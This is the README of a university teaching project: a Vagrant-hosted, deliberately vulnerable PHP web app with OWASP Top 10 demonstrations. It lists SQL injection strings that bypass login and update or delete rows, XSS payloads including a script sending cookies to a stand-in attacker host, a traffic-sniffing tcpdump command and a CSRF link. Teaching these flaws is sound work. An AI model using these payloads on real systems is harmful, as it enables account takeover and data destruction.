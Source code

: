 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd $PRJ_HOME
> vagrant up
```
* in browser go to http://192.168.33.10/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/index.php?action=create&notice=pokus



### TODOs:
- misconfiguration - show e.g directory listing when apache configuration is set to allow that (create new virtualhost or modify the default)
- directory traversal


### Troubleshooting
 - Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not available. Please verify that the guest additions are properly installed in the guest and  can work properly. The command attempted was:
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
  - The error output from the last command was:
    - /sbin/mount.vboxsf: mounting failed with the error: No such device
 - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
